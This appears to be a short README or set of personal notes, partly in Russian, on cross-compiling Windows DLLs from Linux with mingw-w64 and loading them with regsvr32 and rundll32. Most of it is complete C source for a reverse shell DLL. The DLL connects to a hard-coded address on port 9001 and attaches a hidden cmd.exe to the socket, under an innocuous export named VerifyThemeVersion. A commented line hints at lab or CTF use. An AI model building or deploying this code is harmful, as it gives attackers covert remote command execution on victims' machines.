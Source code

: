 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll 

rundll32 shell,0

----------------------
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void VerifyThemeVersion() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------


# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs
